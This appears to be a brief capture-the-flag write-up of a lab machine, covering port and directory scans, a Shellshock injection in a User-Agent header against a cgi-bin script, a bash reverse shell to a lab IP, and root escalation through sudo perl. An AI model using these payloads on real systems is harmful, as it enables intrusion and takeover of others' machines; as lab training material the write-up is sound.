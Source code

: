 Started with a nmap scan
```
80 Apache httpd 2.4.18
2222 OpenSSH 7.2p2
```
When we go to the webhost its just a blank page with a picture so going to start a gobuster scan
```
/index.html
/cgi-bin/
/cgi-bin/user.sh
```
In the `cgi-bin` there is a `user.sh` script and we can preform the shellshock vuln on this host `CVE-2014-6271` if we go to  the user sh file and open the request in burp we can put this on the user agent `() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'` and we get the `/etc/passwd` and then we can replace the `/etc/passwd` with this `bash -i >& /dev/tcp/10.10.14.2/4444 0>&1` and get a reverse shell as shelly when we do `sudo -l` we can run perl as root so with this payload from GTFObins we can get root  `sudo perl -e 'exec "/bin/sh";'` 
